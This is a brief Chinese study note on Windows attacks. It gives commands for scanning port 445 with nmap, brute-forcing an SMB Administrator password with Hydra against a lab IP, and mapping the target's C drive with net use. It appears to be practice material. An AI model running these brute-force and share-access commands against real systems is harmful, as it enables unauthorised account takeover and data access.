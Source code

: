 <!-- 
title: 03-Windows入门
sort: 
--> 

## WIndows

> 提权
>
> [nmap](https://nmap.org/dist/?C=M&O=D)
>
> [Hydra](https://github.com/maaaaz/thc-hydra-windows)

```powershell
# 查看445端口是否开放
nmap -O <addr>

# 开启SMB1支持
# 关闭防火墙
# 开启文件共享

# l 用户名 P 密码 ip 协议 
hydra -l Administrator -P passlist.txt 192.168.252.128 smb

# 连接
net use \\192.168.252.128\ipc$ 1234 /user:Administrator
# 映射
net use x: "\\192.168.252.128\本地磁盘 (C)"


```


